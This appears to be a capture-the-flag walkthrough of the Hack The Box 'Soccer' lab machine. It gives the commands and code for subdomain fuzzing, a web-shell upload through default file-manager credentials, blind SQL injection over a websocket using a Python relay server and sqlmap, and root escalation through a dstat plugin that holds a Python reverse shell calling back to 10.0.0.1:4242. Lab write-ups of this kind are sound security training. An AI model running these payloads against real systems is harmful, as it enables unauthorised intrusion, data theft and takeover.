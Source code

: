 ```yaml
---
title: Soccer

date: 2023-01-01 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [web, wfuzz, websocket, http server, doas, dstat, linux]
---
```


<https://app.hackthebox.com/machines/> 

Enumerate a webserver to find a websocket vulnerability. Setup a http server to intercept requests. Privilege escalation with a misconfigured executable.

Starting with nmap scans we have a few open ports 22 ssh and port 80 webserver that we need to add to /etc/hosts soccer.htb.

start enumerating the host scanning for subdomains with wfuzz and subdirectories with feroxbuster

- `wfuzz -c -w /usr/share/seclists/Discovers/DNS/bitquard-subdomains-top100000.txt - 'http://soccer.htb' -H "Host: FUZZ.soccer.htb" --hc 301,302`
- `feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php`

During scans we find a "<a href="https://tinyfilemanager.github.io/">Tiny File Manager</a>" 

Checking the github the default credentials do work, we can upload a shell here?

`/var/www/html/tiny/uploads` has permissions to upload and we get a callback as www-data after setting up a listener.

during a linpeas scan we end up finding `soc-player.soccer.htb` which is another site with a login...

Checking the source on the /check page wqe find a websocket. I've literally never had to deal with or know how to deal with this but I found some help? https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh

```
curl -i -s -k -X $'GET' \
    -H $'Host: soc-player.soccer.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://soc-player.soccer.htb/check' -H $'Upgrade-Insecure-Requests: 1' -H $'If-None-Match: W/\"12e9-jepY6GiJmK+3NHavK46gs9vINZM\"' \
    -b $'connect.sid=s%3AKI5S00CPO6HI-LF23kQn6GqHwWQxa2Nh.ljAb1hQUlzyU6qz4iPBlLwBKc5n4UNxapAIi%2Fhb0%2Bik' \
    $'http://soc-player.soccer.htb/check'
```

Inspecting the check page we find a websocket

```
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
```

read more about exploiting this <a href="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html">here</a>.

We start off by hosting a http.server that will connect to the websocket so we can send through requests to dump the database.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- run sqlmap and dump the database `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

- dump the soccer_db `sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump`

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- login via ssh

- `find / -type f -perm -u=s 2>/dev/null`

We see doas here. check the config for doas

- `find / -name *doas* 2>/dev/null`

`permit nopass player as root cmd /usr/bin/dstat`

this mean we can use doas to execute dstat as root 

dstat is a tool for generating system resouce statustics it allows users to create custom plugins and execute them by adding the `--myplugin` options.

find the stat directory

- `find / -type d -name dstat 2>/dev/null`

create a plugin in the directory

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

dstat will recognize pluds under this directory. we can check if the plugin has been added by executing `dstat --list | grep oskar`

after setting up a listener we recieve a root shell.


    

